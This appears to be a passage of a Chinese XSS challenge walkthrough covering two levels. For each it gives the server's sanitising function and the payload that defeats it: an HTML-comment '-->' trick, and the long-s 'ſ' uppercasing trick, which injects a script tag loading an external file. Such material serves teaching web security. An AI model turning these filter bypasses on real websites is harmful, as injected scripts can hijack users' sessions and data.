 ## 0x0D

- server code

```js
function render (input) {
  input = input.replace(/[</"']/g, '')
  return `
    <script>
          // alert('${input}')
    </script>
  `
}
```

- solution

正则匹配`<`、`/`、`"`、`'`替换为空。由于过滤了`/`，js注释中的`//`、`/**/`不可用，可用HTML注释`-->`进行绕过。

```html
//input code

alert(1);
-->
//html
<script>
          // alert('
alert(1);
-->')
    </script>
```

## 0x0E

- server code

```js
function render (input) {
  input = input.replace(/<([a-zA-Z])/g, '<_$1')
  input = input.toUpperCase()
  return '<h1>' + input + '</h1>'
}
```

- solution

过滤了`<`开头字符串，替换为`<_`，并全部转化为大写字母。解法来自于古英语：字符`ſ`大写后为S（ſ不等于s）。

```html
//input code
<ſcript src="https://xss.haozi.me/j.js"></script>
//html
<h1><SCRIPT SRC="HTTPS://XSS.HAOZI.ME/J.JS"></SCRIPT></h1>
```

## 0x0F
